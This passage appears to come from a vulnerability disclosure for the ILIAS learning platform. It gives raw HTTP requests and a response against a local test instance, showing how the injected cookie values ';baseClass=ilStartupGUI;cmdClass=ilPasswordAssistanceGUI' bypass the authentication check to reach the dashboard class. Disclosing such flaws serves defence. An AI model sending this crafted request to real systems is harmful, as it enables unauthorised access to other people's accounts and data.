 ```http
GET /ilias.php?baseClass=ilDashboardGUI&cmd=jumpToSelectedItems HTTP/1.1
Host: ilias.local:9080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ilias.local:9080/login.php?client_id=myilias&cmd=force_login&lang=de
Connection: close
Cookie: ilClientId=myilias; PHPSESSID=Unauth
Upgrade-Insecure-Requests: 1


```

Response:

```http
HTTP/1.1 302 Found
Date: Fri, 28 Apr 2023 05:39:52 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: PHPSESSID=c7058622b3a4df0c5a227effc4aac2f7; path=/; HttpOnly
Location: http://ilias.local:9080/ilias.php?baseClass=ilrepositorygui&reloadpublic=1&cmd=frameset&ref_id=1
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8

```

But by adding the following cookies: `;baseClass=ilStartupGUI;cmdClass=ilPasswordAssistanceGUI` it is possible to bypass (`blockedAuthentication` returns `true`) the auth check and access the `ilDashboardGUI` base class (although an exception is thrown).

```http
GET /ilias.php?baseClass=ilDashboardGUI&cmd=jumpToSelectedItems HTTP/1.1
Host: ilias.local:9080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ilias.local:9080/login.php?client_id=myilias&cmd=force_login&lang=de
Connection: close
Cookie: ilClientId=myilias; PHPSESSID=Unauth; ;baseClass=ilStartupGUI;cmdClass=ilPasswordAssistanceGUI
Upgrade-Insecure-Requests: 1


```
